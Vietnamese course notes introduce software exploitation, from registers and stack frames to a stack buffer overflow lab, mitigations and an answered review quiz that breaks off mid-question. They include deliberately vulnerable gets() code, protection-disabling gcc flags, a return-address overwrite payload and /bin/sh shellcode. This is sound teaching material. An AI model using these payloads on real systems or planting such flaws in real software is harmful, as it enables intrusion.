




# Buổi 07: Introduction to Exploitation (Khai thác lỗ hổng phần mềm)

---

## 1. Triết lý học tập: "The Hard Way is the Easy Way"

> **"Con đường khó nhất là con đường dễ nhất"**

Nghĩa là: thay vì tìm lối tắt, hãy học đúng cách ngay từ đầu — dù khó hơn ban đầu nhưng sẽ tạo nền tảng vững chắc về lâu dài.

### Ba bước cam kết theo con đường khó:

**Bước 1 – Bắt đầu với những thứ hiệu quả nhất:** Đừng bắt đầu bằng những thứ dễ, hãy đặt mục tiêu vào điểm quan trọng và hiệu quả nhất.

**Bước 2 – Làm tốt nhất để đạt kết quả:** Thực hành có chủ đích, điều chỉnh (necessary adjustments) trong quá trình học.

**Bước 3 – Biến con đường khó thành dễ:** Xây dựng thói quen tốt (good habits), loại bỏ ma sát (smooth friction), kỹ năng trở nên tự nhiên.

---

### Nguyên tắc học tập

!!! tip "Nguyên tắc cốt lõi"
    **Đọc → Thực hành (DIY) → Đọc → Thực hành (DIY) → ...**
    Không chỉ đọc lý thuyết, phải tự tay làm thì mới nắm được.

### Kiến thức cần có:

- **Assembly / Hợp ngữ** và **C/C++**
- **Hệ điều hành**: quản lý tiến trình, bộ nhớ
- **Công cụ debug**: GDB, GDB-PEDA, IDA, OllyDbg, Hopper Disassembler
- **Ngôn ngữ scripting**: Python, Ruby, Go
- **Nguyên tắc lập trình an toàn**
- **Linux** (môi trường chính)
- **pwntools** – CTF toolkit
- **Fuzzing**: afl-fuzz, libFuzzer, honggfuzz, AddressSanitizer, Valgrind
- **Đánh giá mã nguồn**: đọc source code, dịch ngược (Reverse Engineering)

### Wargame & Lab thực hành:

| Nền tảng | URL |
|---|---|
| pwnable.kr | http://pwnable.kr/ |
| pwnable.tw | https://pwnable.tw/ |
| pwnable.vn | https://pwnable.vn/ |
| root-me | https://www.root-me.org/ |
| vulnhub | https://www.vulnhub.com/ |
| how2heap | https://github.com/shellphish/how2heap |
| CTF Wiki | https://ctf-wiki.org/pwn/linux/user-mode/environment/ |

---

## 2. Các khái niệm cơ bản

### 2.1 Vulnerability – Lỗ hổng

!!! info "Định nghĩa"
    **Vulnerability** (lỗ hổng) là một lỗi trong bảo mật của hệ thống, có thể cho phép kẻ tấn công sử dụng hệ thống theo cách khác với thiết kế ban đầu.

**Tên gọi khác:** security hole, security bug.

**Tác động có thể có:**

- Ảnh hưởng đến **tính sẵn sàng** (availability) của hệ thống (DoS)
- **Leo thang đặc quyền** (privilege escalation)
- **Điều khiển toàn bộ hệ thống** trái phép (full system compromise)

**CVE – Common Vulnerabilities and Exposures:** Là hệ thống định danh chuẩn quốc tế cho các lỗ hổng đã được công bố. Mỗi lỗ hổng có một mã CVE riêng (ví dụ: `CVE-2020-0618`), kèm theo điểm CVSS v2/v3 đánh giá mức độ nghiêm trọng.

```
Ví dụ: CVE-2020-3934
Vendor: TAIWAN SECOM CO. LTD.
Mô tả: Pre-auth SQL Injection trong hệ thống kiểm soát truy cập
CVSS v3: 9.8 CRITICAL
```

---

### 2.2 Exploit – Khai thác

!!! info "Định nghĩa"
    - **(Động từ):** Lợi dụng một lỗ hổng để khiến hệ thống phản ứng khác với thiết kế ban đầu.
    - **(Danh từ):** Công cụ, tập lệnh, hoặc mã nguồn được dùng để lợi dụng lỗ hổng đó. Tên gọi khác: **Proof of Concept (PoC)**.

---

### 2.3 Fuzzer

!!! info "Định nghĩa"
    **Fuzzer** là công cụ hoặc ứng dụng thử tất cả, hoặc một loạt đầu vào không mong muốn cho hệ thống, nhằm xác định hệ thống có bug hay không — mà không cần biết hoàn toàn về hoạt động bên trong.

**Luồng hoạt động của fuzzer:**



**Các fuzzer phổ biến:**

- `afl-fuzz` (American Fuzzy Lop) – coverage-guided fuzzing (Nov 2013)
- `libFuzzer` – in-process fuzzing (Jan 2015)
- `OSS-Fuzz` – Google, miễn phí cho open source (Dec 2016)
- `ClusterFuzz` – hạ tầng fuzzing của Google, đã tìm thấy hơn 16.000 bug trong Chrome

!!! note "AI Fuzzing"
    Xu hướng mới: kết hợp **machine learning** với fuzzing (AI Fuzzing / AIF) giúp tự động hóa khám phá lỗ hổng zero-day ở quy mô lớn, không cần nhiều kỹ năng kỹ thuật — đây là mối đe dọa tiềm năng từ cả phía phòng thủ lẫn tấn công.

---

### 2.4 0-day và 1-day (n-day)

| Khái niệm | Giải thích |
|---|---|
| **0-day (zero-day)** | Lỗ hổng chưa được công bố công khai và chưa có bản vá. Kẻ tấn công có thể khai thác khi nhà sản xuất chưa biết hoặc chưa vá. |
| **Zero-day exploit** | Mã khai thác (PoC/malware) được phát triển và triển khai thành công trên lỗ hổng zero-day. |
| **1-day / n-day** | Lỗ hổng đã được công bố công khai và đã có bản vá, nhưng nhiều hệ thống chưa cập nhật — vẫn có thể bị khai thác. |

---

## 3. Ôn tập nền tảng kỹ thuật

### 3.1 Assembly – Hợp ngữ

Khai thác lỗ hổng bảo mật đòi hỏi phải nắm chắc hợp ngữ vì hầu hết các kỹ thuật exploit đều cần viết hoặc chỉnh sửa mã assembly (IA-32).

#### Bốn nhóm thanh ghi trong IA-32:

```
┌───────────────────────────────────────────────────────────-──┐
│  1. General Purpose (Mục đích chung)                         │
│     EAX, EBX, ECX, EDX  – tính toán thông thường             │
│     ESP                  – Stack Pointer (con trỏ đỉnh stack)│
│                                                              │
│  2. Segment                                                  │
│     CS, DS, SS           – 16-bit, theo dõi segment bộ nhớ   │
│                                                              │
│  3. Control (Điều khiển)                                     │
│     EIP (Extended Instruction Pointer)                       │
│          – chứa địa chỉ lệnh tiếp theo sẽ được thực thi      │
│                                                              │
│  4. Khác                                                     │
│     EFLAGS               – lưu kết quả phép kiểm tra         │
└───────────────────────────────────────────────────────────-──┘
```

!!! warning "Quan trọng: EIP"
    **EIP** là thanh ghi quan trọng nhất trong khai thác lỗ hổng. Ai kiểm soát được EIP là kiểm soát được luồng thực thi của chương trình.

---

### 3.2 Quản lý bộ nhớ trong IA-32

Khi một chương trình được thực thi, hệ điều hành tạo vùng địa chỉ (address space) và ánh xạ các thành phần vào bộ nhớ theo cấu trúc sau:



| Segment | Mô tả | Hướng phát triển |
|---|---|---|
| `.text` | Chứa lệnh thực thi, **chỉ đọc** | — |
| `.data` | Biến toàn cục **đã khởi tạo** | — |
| `.bss` | Biến toàn cục **chưa khởi tạo** | — |
| **Heap** | Cấp phát động (`malloc`), cấu trúc FIFO | Tăng (↑) |
| **Stack** | Gọi hàm, biến cục bộ, cấu trúc LIFO | Giảm (↓) |

!!! danger "Nguyên tắc quan trọng"
    Máy tính **không phân biệt** instructions và data trong bộ nhớ. Nếu processor bị đẩy instructions vào vùng nó đang đọc data, nó sẽ thực thi chúng — đây chính là nền tảng của khai thác phần mềm.

---

### 3.3 Endianness – Thứ tự byte

**Vấn đề:** Khi một số nguyên nhiều byte (ví dụ 32-bit `0x1A2B3C4D`) được lưu vào bộ nhớ, thứ tự các byte được sắp xếp như thế nào?

| Kiểu | Thứ tự lưu | Mô tả |
|---|---|---|
| **Big Endian** | `1A 2B 3C 4D` | Byte quan trọng nhất (MSB) lưu trước ở địa chỉ thấp |
| **Little Endian** | `4D 3C 2B 1A` | Byte ít quan trọng nhất (LSB) lưu trước ở địa chỉ thấp |

```
Giá trị: 0x1A2B3C4D

Little Endian (x86/IA-32):        Big Endian (network, MIPS):
Addr+0: 4D                         Addr+0: 1A
Addr+1: 3C                         Addr+1: 2B
Addr+2: 2B                         Addr+2: 3C
Addr+3: 1A                         Addr+3: 4D
```

!!! warning "Lưu ý khi viết exploit"
    Kiến trúc x86/IA-32 dùng **Little Endian**. Khi viết địa chỉ vào payload tấn công (ví dụ ghi đè ret-addr), phải đảo ngược thứ tự byte!
    
    Ví dụ: Địa chỉ `0x080483c4` phải được viết là `\xc4\x83\x04\x08` trong payload.

---

### 3.4 Từ C/C++ sang Assembly

#### Biến số nguyên:

```c
// C/C++
int number;
number++;
```

```nasm
; Assembly tương đương
number dw 0         ; khai báo số nguyên
mov eax, number     ; đưa giá trị vào EAX
inc eax             ; tăng lên 1
mov number, eax     ; ghi lại vào biến
```

#### Câu lệnh if:

```c
// C/C++
int number;
if (number < 0) {
    // ...
}
```

```nasm
; Assembly tương đương
number dw 0
mov eax, number
or eax, eax         ; set flags dựa trên giá trị EAX
jge label           ; nhảy đến label nếu >= 0
; <xử lý khi number < 0>
label:
; <tiếp tục>
```

#### Mảng:

```c
// C/C++
int array[4];
array[2] = 9;
```

```nasm
; Assembly tương đương
array dw 0, 0, 0, 0
mov ebx, 2          ; index = 2
mov array[ebx], 9
```

---

### 3.5 Stack Frame và lời gọi hàm (cdecl calling convention)

Khi hàm được gọi trong IA-32 (theo `__cdecl`):



**Bố cục stack frame khi đang trong hàm:**

```
Địa chỉ cao
┌───────────────────────────────┐
│  tham số thứ 3   [16(%ebp)]   │
│  tham số thứ 2   [12(%ebp)]   │
│  tham số thứ 1   [ 8(%ebp)]   │
│  return address  [ 4(%ebp)]   │  ← ret-addr (EIP cũ)
│  EBP cũ          [ 0(%ebp)]   │  ← EBP trỏ vào đây
│  biến cục bộ 1   [-4(%ebp)]   │
│  biến cục bộ 2   [-8(%ebp)]   │
│  biến cục bộ 3  [-12(%ebp)]   │
└───────────────────────────────┘  ← ESP trỏ vào đây
Địa chỉ thấp
```

#### Ba thanh ghi then chốt trong stack frame:

| Thanh ghi | Tên | Vai trò |
|---|---|---|
| **ESP** | Stack Pointer | Luôn trỏ đến **đỉnh stack** (địa chỉ thấp nhất đang dùng). Bị thay đổi bởi PUSH, POP, CALL, RET. |
| **EBP** | Base Pointer | Trỏ đến đáy stack frame hiện tại. Dùng để tham chiếu tham số và biến cục bộ qua offset cố định. |
| **EIP** | Instruction Pointer | Chứa địa chỉ lệnh **tiếp theo** sẽ thực thi. Được lưu vào stack khi gọi hàm (CALL), được khôi phục khi RET. |

---

## 4. Cơ bản về GDB

```bash
# Xem mã assembly của hàm main
(gdb) disassemble main
(gdb) disas main           # rút gọn

# Đổi sang cú pháp Intel (dễ đọc hơn AT&T)
(gdb) set disassembly-flavor intel

# Đặt breakpoint
(gdb) break main
(gdb) b *0x08048384        # breakpoint tại địa chỉ cụ thể

# Chạy chương trình
(gdb) run

# Đi từng lệnh (step into – đi vào hàm con)
(gdb) stepi

# Đi từng lệnh (step over – không đi vào hàm con)
(gdb) nexti

# Xem bộ nhớ tại địa chỉ
# Cú pháp: x/NFU address
# N = số đơn vị, F = định dạng (x=hex, d=decimal, s=string, i=instruction)
# U = đơn vị (b=byte, h=halfword, w=word, g=giant/8byte)
(gdb) x/10xb 0xdeadbeef    # xem 10 bytes dạng hex
(gdb) x/xw  0xdeadbeef     # xem 1 word (4 bytes) dạng hex
(gdb) x/s   0xdeadbeef     # xem chuỗi kết thúc bằng null

# Dùng lệnh Python trong gdb
(gdb) python print('A'*10)
```

---

## 5. Tràn bộ đệm trên Stack (Stack Buffer Overflow)

### 5.1 Buffer là gì?

**Buffer** là vùng nhớ được cấp phát liên tục và có giới hạn kích thước. Buffer phổ biến nhất trong C là **mảng** (array).

### 5.2 Tại sao xảy ra tràn bộ đệm?

Ngôn ngữ C và C++ **không có cơ chế kiểm tra giới hạn (bound-checking) tự động**. Nếu lập trình viên không tự kiểm tra kích thước đầu vào, dữ liệu có thể ghi vượt qua giới hạn của buffer, tiếp tục ghi đè vào các vùng nhớ kề cạnh trên stack.

!!! danger "Các hàm nguy hiểm trong C"
    | Hàm nguy hiểm | Hàm an toàn thay thế |
    |---|---|
    | `gets(buf)` | `fgets(buf, size, stdin)` |
    | `scanf("%s", buf)` | `scanf("%30s", buf)` |
    | `strcpy(dst, src)` | `strncpy(dst, src, n)` |
    | `strcat(dst, src)` | `strncat(dst, src, n)` |

---

### 5.3 Ví dụ 1 – Stack smashing detected

```cpp
#include <iostream>
using namespace std;

int main() {
    int array[5];  // chỉ 5 phần tử
    int i;
    for (i = 0; i < 255; i++) {
        array[i] = 10;  // i vượt qua 4 → ghi đè bộ nhớ ngoài mảng!
    }
}
```

**Kết quả:** `stack smashing detected` – trình biên dịch hiện đại phát hiện và dừng chương trình nhờ **stack canary**.

---

### 5.4 Ví dụ 2 – Tràn bộ đệm với gets() (Phân tích sâu với GDB)

```c
void return_input(void) {
    char array[30];
    gets(array);       // NGUY HIỂM: không kiểm tra độ dài!
    printf("%s\n", array);
}

int main() {
    return_input();
    return 0;
}
```

**Biên dịch (tắt các bảo vệ để thực hành):**

```bash
cc -mpreferred-stack-boundary=2 -ggdb overflow.c -o overflow
```

**Thực thi với input bình thường:**

```bash
$ ./overflow
AAAAAAAAAA
AAAAAAAAAA
```

**Thực thi với input dài hơn 30 ký tự:**

```bash
$ ./overflow
AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDD
AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDD
Segmentation fault (core dumped)
```

**Phân tích với GDB:**

Khi hàm `return_input()` chạy, stack frame trông như sau **trước khi** tràn:

```
Địa chỉ cao
┌────────────────────────────┐
│  tham số b                 │
│  tham số a                 │
│  ret-addr: 0x080483F2      │  ← địa chỉ trở về main
│  EBP cũ                    │
│  [padding 2 bytes]         │
│  array[29]...array[0]      │  ← 30 bytes cho array
└────────────────────────────┘
Địa chỉ thấp
```

Sau khi nhập `AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDD`:

```
Địa chỉ cao
┌────────────────────────────────────────────────────────┐
│  0x44444444  ← "DDDD" ghi đè ret-addr!                 │
│  0x44444444  ← "DDDD" ghi đè EBP cũ!                   │
│  CCCCCCCCCC  ← "CCCCCCCCCC"                            │
│  BBBBBBBBBB  ← "BBBBBBBBBB"                            │
│  AAAAAAAAAA  ← "AAAAAAAAAA" (30 bytes array + padding) │
└────────────────────────────────────────────────────────┘
Địa chỉ thấp
```

**Kết quả:** Khi lệnh `RET` thực thi, nó lấy `0x44444444` (tức `"DDDD"`) làm địa chỉ trở về → địa chỉ không hợp lệ → **Segmentation fault**.

---

### 5.5 Bốn tác động của tràn bộ đệm



---

### 5.6 Ví dụ 3 – TH3: Điều khiển EIP

**Mục tiêu:** Thay vì làm chương trình crash, ta ghi đè `ret-addr` bằng địa chỉ của hàm `return_input()` → chương trình sẽ gọi lại `return_input()` thêm một lần nữa.

Từ GDB: địa chỉ của `return_input` là `0x080483c4`.

Trong Little Endian: `\xc4\x83\x04\x08`

**Payload tấn công:**

```bash
# 30 bytes array + 2 bytes padding + 4 bytes EBP giả + 4 bytes ret-addr mới
printf "AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDD\xc4\x83\x04\x08" | ./overflow
```

**Kết quả:** Chương trình yêu cầu nhập chuỗi **hai lần** thay vì một lần → đã thành công điều hướng luồng thực thi! 🎉

---

### 5.7 TH4 – Truyền và thực thi Shellcode

**Shellcode** là các byte code thực thi được, hệ thống có thể thực thi ngay mà không cần biên dịch.

**Ví dụ: Shellcode mở `/bin/sh`:**

```c
// Chương trình C nguồn (shell.c)
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = 0x0;
    execve(name[0], name, 0x0);
    exit(0);
}
```

```c
// Shellcode tương đương dạng byte array (shellcode.c)
char shellcode[] =
    "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
    "\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
    "\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

int main() {
    int *ret;
    ret = (int *)&ret + 2;  // trỏ đến return address
    (*ret) = (int)shellcode; // ghi đè bằng địa chỉ shellcode
}
```

**Cách tạo shellcode:**

1. Viết chức năng bằng C/Assembly
2. Biên dịch thành file thực thi với `gcc`
3. Trích xuất phần opcode (byte code) từ file thực thi
4. Dùng các tool như `objdump`, `pwntools` để extract

**Kỹ thuật NOP Sled (NOP pad):**

Do địa chỉ chính xác của shellcode trên stack có thể thay đổi, ta đặt một chuỗi dài lệnh **NOP** (`\x90`) trước shellcode. Chỉ cần nhảy vào bất kỳ đâu trong vùng NOP, CPU sẽ trượt xuống và thực thi shellcode.

```
[AAAA...][NOP NOP NOP NOP NOP NOP ... shellcode][ret-addr→NOP sled]
```

---

## 6. Các tùy chọn biên dịch GCC

```bash
# Ví dụ biên dịch tắt bảo vệ để thực hành:
gcc -o vuln -m32 -fno-stack-protector -no-pie -z execstack -ggdb vuln.c
```

| Cờ GCC | Ý nghĩa |
|---|---|
| `-ggdb` | Thêm thông tin debug cho GDB |
| `-m32` | Biên dịch file thực thi 32-bit trên hệ thống 64-bit |
| `-fno-stack-protector` | **Tắt** stack canary (cơ chế bảo vệ stack) |
| `-no-pie` | Không tạo PIE → tắt ASLR |
| `-z execstack` | Cho phép thực thi code trên stack |
| `-mpreferred-stack-boundary=2` | Stack alignment 4 bytes (thay vì 16) |
| `-fstack-protector` | **Bật** stack canary (mặc định trong gcc hiện đại) |
| `-z noexecstack` | Ngăn thực thi code trên stack (NX bit) |

---

## 7. Cách khắc phục tràn bộ đệm

!!! success "Biện pháp phòng thủ"

    **1. Thay thế hàm không an toàn:**

    | Nguy hiểm | An toàn |
    |---|---|
    | `gets(buf)` | `fgets(buf, sizeof(buf), stdin)` |
    | `scanf("%s", buf)` | `scanf("%30s", buf)` |
    | `strcpy(d, s)` | `strncpy(d, s, n)` |

    **2. Stack Canary:**
    Compiler chèn một giá trị ngẫu nhiên (canary) giữa biến cục bộ và ret-addr. Trước khi RET, giá trị được kiểm tra — nếu bị thay đổi → chương trình dừng ngay.
    ```bash
    gcc -fstack-protector ...   # bật canary (mặc định)
    ```

    **3. NX / DEP (Non-Executable Stack):**
    Đánh dấu vùng stack là không thể thực thi → shellcode trên stack không chạy được.
    ```bash
    gcc -z noexecstack ...
    ```

    **4. ASLR (Address Space Layout Randomization):**
    Kernel ngẫu nhiên hóa địa chỉ base của stack, heap, libraries mỗi lần chạy → attacker không biết địa chỉ chính xác để nhảy đến.
    ```bash
    # Kiểm tra ASLR trên Linux
    cat /proc/sys/kernel/randomize_va_space
    # 0 = tắt, 1 = bật một phần, 2 = bật hoàn toàn
    ```

---

## 8. Câu trắc nghiệm ôn tập

---

**Câu 1.** Lỗ hổng (Vulnerability) trong bảo mật phần mềm được định nghĩa là gì?

- A. Một tính năng ẩn trong phần mềm
- B. Một lỗi trong bảo mật hệ thống, cho phép kẻ tấn công sử dụng hệ thống khác với thiết kế ban đầu
- C. Một đoạn code bị lỗi cú pháp
- D. Bất kỳ bug nào trong phần mềm đều được gọi là lỗ hổng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Vulnerability là lỗi *bảo mật* (không phải mọi bug đều là lỗ hổng). Nó cho phép kẻ tấn công làm điều hệ thống không cho phép: leo thang đặc quyền, DoS, chiếm quyền điều khiển...

---

**Câu 2.** CVE là viết tắt của gì?

- A. Common Vulnerability Exploits
- B. Critical Vulnerability Enumeration
- C. Common Vulnerabilities and Exposures
- D. Cyber Vulnerability Evaluation

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    CVE = Common Vulnerabilities and Exposures – hệ thống định danh chuẩn quốc tế cho các lỗ hổng bảo mật đã biết.

---

**Câu 3.** Exploit (danh từ) trong bảo mật là gì?

- A. Quá trình tìm kiếm lỗ hổng
- B. Công cụ, tập lệnh hoặc mã nguồn dùng để lợi dụng một lỗ hổng
- C. Bản vá lỗi phần mềm
- D. Công cụ quét mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Exploit (danh từ) = PoC (Proof of Concept) = code/tool khai thác lỗ hổng. Exploit (động từ) = hành động lợi dụng lỗ hổng.

---

**Câu 4.** Zero-day (0-day) exploit là gì?

- A. Lỗ hổng đã được vá trong vòng 0 ngày
- B. Mã khai thác được triển khai khi nhà sản xuất vẫn đang cố vá hoặc chưa biết đến lỗ hổng
- C. Lỗ hổng xảy ra vào ngày đầu tiên phần mềm ra mắt
- D. Một kỹ thuật tấn công không cần mã độc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Zero-day exploit = khai thác lỗ hổng trước khi có bản vá. "Zero day" ám chỉ nhà sản xuất có 0 ngày để phản ứng (hoặc chưa biết đến).

---

**Câu 5.** Sự khác biệt giữa 0-day và 1-day (n-day) là gì?

- A. 0-day nguy hiểm hơn vì chưa có bản vá; 1-day đã có bản vá nhưng nhiều hệ thống chưa cập nhật
- B. 0-day chỉ tấn công được 0 hệ thống
- C. 1-day là lỗ hổng xảy ra vào ngày đầu tiên
- D. Không có sự khác biệt

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    0-day: chưa công bố/vá → nguy hiểm nhất. n-day: đã công bố và có bản vá, nhưng hệ thống chưa cập nhật vẫn bị khai thác được.

---

**Câu 6.** Fuzzer là công cụ dùng để làm gì?

- A. Mã hóa dữ liệu nhạy cảm
- B. Thử tất cả hoặc một loạt đầu vào không mong muốn vào hệ thống để tìm bug
- C. Vá các lỗ hổng đã tìm thấy
- D. Giám sát lưu lượng mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Fuzzer tự động sinh và gửi các input ngẫu nhiên/biến thể để tìm trạng thái bất thường (crash, memory leak...) mà không cần biết hoàn toàn về hệ thống.

---

**Câu 7.** Fuzzer nào của Google đã tìm thấy hơn 16.000 bug trong Chrome?

- A. AFL
- B. libFuzzer
- C. ClusterFuzz
- D. Honggfuzz

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    ClusterFuzz là hạ tầng fuzzing của Google, được open-source và kết hợp với OSS-Fuzz đã tìm 11.000+ bug trong 160 dự án open source, riêng ClusterFuzz tìm 16.000+ bug trong Chrome.

---

**Câu 8.** AFL (American Fuzzy Lop) là loại fuzzer nào?

- A. Black-box fuzzer
- B. Coverage-guided fuzzer
- C. Symbolic execution fuzzer
- D. Network fuzzer

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    AFL dùng **coverage-guided fuzzing** – theo dõi độ phủ code (code coverage) để ưu tiên các input khám phá được nhiều nhánh mới trong chương trình.

---

**Câu 9.** Thanh ghi EIP trong IA-32 chứa gì?

- A. Địa chỉ đỉnh stack hiện tại
- B. Địa chỉ của lệnh tiếp theo sẽ được thực thi
- C. Giá trị trả về của hàm
- D. Địa chỉ đáy stack frame

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    EIP (Extended Instruction Pointer) = Program Counter. Nó luôn trỏ đến lệnh tiếp theo CPU sẽ fetch và execute. Kiểm soát EIP = kiểm soát luồng thực thi.

---

**Câu 10.** Thanh ghi ESP trong IA-32 có vai trò gì?

- A. Lưu địa chỉ trả về của hàm
- B. Luôn trỏ đến đỉnh stack (địa chỉ thấp nhất đang dùng)
- C. Lưu kết quả phép tính
- D. Trỏ đến đáy stack frame của hàm hiện tại

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ESP (Extended Stack Pointer) luôn trỏ đến đỉnh stack. Bị thay đổi bởi PUSH (giảm 4), POP (tăng 4), CALL, RET, và SUB/ADD trực tiếp.

---

**Câu 11.** Thanh ghi EBP được dùng để làm gì trong stack frame?

- A. Đếm số vòng lặp
- B. Tham chiếu đến các tham số và biến cục bộ trong stack frame qua offset cố định
- C. Lưu địa chỉ của hàm tiếp theo
- D. Kiểm tra điều kiện nhảy

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    EBP (Extended Base Pointer) là "neo" cố định của stack frame. Tham số ở `+8(%ebp)`, `+12(%ebp)` (địa chỉ cao hơn). Biến cục bộ ở `-4(%ebp)`, `-8(%ebp)` (địa chỉ thấp hơn).

---

**Câu 12.** Stack trong IA-32 phát triển theo hướng nào?

- A. Từ địa chỉ thấp lên địa chỉ cao
- B. Từ địa chỉ cao xuống địa chỉ thấp
- C. Không theo hướng cố định
- D. Tùy thuộc vào hệ điều hành

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Stack **grows downward** (phát triển xuống địa chỉ thấp hơn). Khi PUSH, ESP giảm 4; khi POP, ESP tăng 4. Đây là lý do tại sao overflow có thể ghi đè ret-addr (nằm ở địa chỉ cao hơn buffer).

---

**Câu 13.** Heap phát triển theo hướng nào?

- A. Từ địa chỉ cao xuống địa chỉ thấp
- B. Từ địa chỉ thấp lên địa chỉ cao
- C. Giống stack
- D. Ngẫu nhiên

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Heap **grows upward** (từ thấp lên cao), ngược với Stack. Đây là lý do trên memory map, Heap và Stack "gặp nhau ở giữa".

---

**Câu 14.** Segment `.text` trong bộ nhớ chứa gì và có đặc điểm gì?

- A. Biến toàn cục, có thể đọc và ghi
- B. Các lệnh thực thi của chương trình, **chỉ đọc**
- C. Bộ nhớ heap, có thể mở rộng
- D. Biến cục bộ của hàm main

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `.text` chứa machine code (lệnh thực thi). Thuộc tính **read-only** để ngăn chương trình vô tình (hoặc cố ý) ghi đè code của chính mình.

---

**Câu 15.** Sự khác biệt giữa segment `.data` và `.bss` là gì?

- A. `.data` cho biến cục bộ, `.bss` cho biến toàn cục
- B. `.data` cho biến toàn cục **đã khởi tạo**, `.bss` cho biến toàn cục **chưa khởi tạo**
- C. `.data` cho hằng số, `.bss` cho biến
- D. Không có sự khác biệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `.data`: `int x = 5;` (toàn cục, đã gán giá trị). `.bss`: `int x;` (toàn cục, chưa gán). `.bss` không chiếm không gian trong file thực thi, chỉ lưu kích thước → được hệ điều hành zero-fill khi load.

---

**Câu 16.** Kiến trúc x86/IA-32 dùng endianness nào?

- A. Big Endian
- B. Little Endian
- C. Mixed Endian
- D. Tùy thuộc vào hệ điều hành

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    x86/IA-32 và x86-64 đều dùng **Little Endian**: byte ít quan trọng nhất (LSB) lưu ở địa chỉ thấp nhất. Điều này ảnh hưởng trực tiếp đến cách viết địa chỉ trong payload exploit.

---

**Câu 17.** Giá trị `0x1A2B3C4D` được lưu dạng Little Endian trong bộ nhớ như thế nào (từ địa chỉ thấp đến cao)?

- A. `1A 2B 3C 4D`
- B. `4D 3C 2B 1A`
- C. `3C 4D 1A 2B`
